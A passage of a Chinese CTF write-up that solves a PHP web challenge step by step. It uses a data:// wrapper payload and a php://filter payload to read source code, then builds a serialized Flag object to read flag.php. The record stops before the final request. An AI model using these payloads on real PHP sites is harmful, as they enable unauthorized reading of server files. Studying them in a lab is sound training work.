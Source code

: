首先看第一个，`file_get_contents()`函数是把整个文件内容读到一个字符串里，但是现在也没有提供的文件给读，想着是自己写入一个文件然后再读，但是再想可以直接用`data://`打印内容啊，于是上`data伪协议`

`?text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=`

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210601103926439.png)
ok条件达成，要知道必须完成上面的条件才能进一步深入

---
再看第二个，`file`参数，有提示是`useless.php`，但是只是`include`，没有源码，参考第一步用伪协议，我们直接第二部也用伪协议看一下源码

`file=php://filter/read=convert.base64/resource=useless.php`
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210601104330293.png)
解码一下

```php

<?php  

class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  

```

发现，这个文件里面是一个类，也是输出文件内容，结合上面代码里`file`字段说`flag not now`，可以推断这里让传的参数应该是`flaag.php`了，但是要怎么传内容，回到源码

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210601104641963.png)
`password`参数的作用也该浮出水面了，这里用的反序列化，上面有一道题目就是反序列化传参，这里我们也同样思路，传参
>不过值得注意的是这里没有接收参数的函数，所以运行代码的时候手动更改一下

```php

<?php  

class Flag{  //flag.php  
    public $file="flag.php";  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  

$a=new Flag();
echo serialize($a);
?>  
```
